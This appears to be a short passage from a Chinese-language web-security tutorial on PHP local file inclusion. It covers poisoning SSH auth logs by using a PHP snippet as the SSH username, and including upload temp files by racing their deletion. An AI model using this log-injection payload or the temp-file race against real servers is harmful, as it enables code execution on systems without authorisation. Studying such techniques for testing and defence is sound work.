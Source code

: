 
ssh日志默认路径：

```
/var/log/auth.log（默认情况下，所有用户都可读）
/var/log/secure
```

使用ssh客户端：
```
ssh '<?php phpinfo();?>'@IP
```

![](img/18.png)


### 临时文件包含

php 中上传文件，会创建临时文件。在 linux 下使用 /tmp 目录，而在 windows 下使用 `c:\winsdows\temp` 目录。在临时文件被删除之前，利用竞争即可包含该临时文件。

![](img/21.png)
